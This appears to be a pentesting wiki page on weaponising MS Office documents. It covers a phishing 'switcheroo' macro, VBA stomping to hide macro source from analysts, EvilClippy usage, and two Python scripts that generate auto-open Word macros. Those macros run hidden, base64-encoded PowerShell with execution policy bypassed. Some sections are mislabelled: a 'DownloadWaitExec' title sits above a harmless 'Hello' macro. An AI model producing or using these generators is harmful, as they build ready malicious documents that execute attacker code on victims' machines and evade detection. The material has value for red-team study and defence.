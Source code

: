 # MS Office




## MS Word Document with Switcheroo Text

1. Place "encrypted" data in a Word document after the pretext (random base64): `head -c 2K < /dev/urandom > rnd && base64 rnd`.
2. Create an AutoText: *Insert > Quick Parts > AutoTexts > Save Selection as `DecryptedBody` to AutoText Gallery*.
3. Create a macro to "decrypt" the body with readable content according to the phishing legend.

{% code title="DecryptPage.vba" %}
```vba
Sub Document_Open()
  DecryptPage
End Sub

Sub AutoOpen()
  DecryptPage
End Sub

Sub DecryptPage()
  ActiveDocument.Content.Select
  Selection.Delete
  ActiveDocument.AttachedTemplate.AutoTextEntries("DecryptedBody").Insert Where:=Selection.Range, RichText:=True
End Sub
```
{% endcode %}




## VBA Stomping



### Manually

1. Create a `.doc` file with a malicious VBA macro.
2. Open it with [FlexHEX](http://www.flexhex.com/download/): *File > Open > OLE Compound File*.
3. Open *Macros > VBA > NewMacros* file.
4. Locate the `Attribute VB_Name` ASCII string (starts with `\x41\x74\x74...`) and replace all the bytes with zeros till the end of the file: *Edit > Insert Zero Block*.
5. Save the `.doc` and exit.

Now the VBA source code is wiped and execution of macro will be performed via the P-code (if the victim's MS Word is the same).

{% hint style="info" %}
After the macro is executed this way MS Word will decompile the P-code and put the VBA source code back into the `NewMacros` file, so it will reappear in the VBA editor as well.
{% endhint %}



### EvilClippy

* [https://github.com/outflanknl/EvilClippy](https://github.com/outflanknl/EvilClippy)

```
PS > .\EvilClippy.exe -s fakecode.vba macrofile.doc
```

{% code title="DownloadWaitExec.vba" %}




## VBA Macros

Wait till a malicious binary is downloaded with PowerShell and execute it:

{% code title="fakecode.vba" %}
```vba
Sub Document_Open()
  Hello
End Sub

Sub AutoOpen()
  Hello
End Sub

Sub Hello()
  MsgBox ("Hello, World!")
End Sub
```
{% endcode %}




## Helpers

Generate a ready-to-paste malicios MS Word macro (execution is provided by VBA [Shell function](https://docs.microsoft.com/ru-ru/office/vba/language/reference/user-interface-help/shell-function)):

{% code title="gen_doc_autoopen_payload_vbshell.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
from base64 import b64encode
from argparse import ArgumentParser

parser = ArgumentParser()
parser.add_argument('pwsh_file', help='PowerShell script to execute')
parser.add_argument('--chunk-size', type=int, default=200, help='length of a payload chunk line')  # if less for big payloads, Windows can error out about "too many line continuations"
args = parser.parse_args()


def gen_payload_vbshell(pwsh_file, chunk_size):
  with open(pwsh_file, 'r', encoding='utf-8') as f:
    payload = f.read()

  payload = payload.encode('utf-16le')
  payload = b64encode(payload).decode()
  payload = [payload[i:i + chunk_size] for i in range(0, len(payload), chunk_size)]
  payload = [f'"{chunk}"' for chunk in payload]
  payload = ' _\r\n& '.join(payload)

  payload = f"""\
    Sub AutoOpen()\r
      Evil\r
    End Sub\r
    \r
    Sub Document_Open()\r
      Evil\r
    End Sub\r
    \r
    Sub Evil()\r
      Text = "powershell -exec bypass -nop -nologo -w hidden -enc " _\r
    & {payload}\r
      a = Shell(Text, vbHide)\r
    End Sub\
  """.replace('\t', '')

  return payload


if __name__ == '__main__':
  print(gen_payload_vbshell(args.pwsh_file, args.chunk_size))
```
{% endcode %}

Generate a ready-to-paste malicios MS Word macro (execution is provided by [WScript.Shell](https://docs.microsoft.com/ru-ru/windows-server/administration/windows-commands/wscript)):

{% code title="gen_doc_autoopen_payload_wscript_shell.py" %}
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
from base64 import b64encode
from argparse import ArgumentParser

parser = ArgumentParser()
parser.add_argument('pwsh_file', help='PowerShell script to execute')
parser.add_argument('--chunk-size', type=int, default=50, help='length of a payload chunk line')
args = parser.parse_args()


def gen_payload_wscript_shell(pwsh_file, chunk_size):
  with open(pwsh_file, 'r', encoding='utf-8') as f:
    chunks = f.read()

  chunks = chunks.encode('utf-16le')
  chunks = b64encode(chunks).decode()
  chunks = [chunks[i:i+chunk_size] for i in range(0, len(chunks), chunk_size)]
  chunks = [f'"{chunk}"' for chunk in chunks]

  print('Sub AutoOpen()\r')
  print('  Evil\r')
  print('End Sub\r\n')

  print('Sub Document_Open()\r')
  print('  Evil\r')
  print('End Sub\r\n')

  print('Sub Evil()\r')
  print('  Dim Text As String\r')
  print('  Text = "powershell -exec bypass -nop -nologo -w hidden -enc "\r')

  for chunk in chunks:
    print(f'  Text = Text + {chunk}\r')

  print('  CreateObject("WScript.Shell").Run Text\r')
  print('End Sub')


if __name__ == '__main__':
  print(gen_payload_wscript_shell(args.pwsh_file, args.chunk_size))
```
{% endcode %}
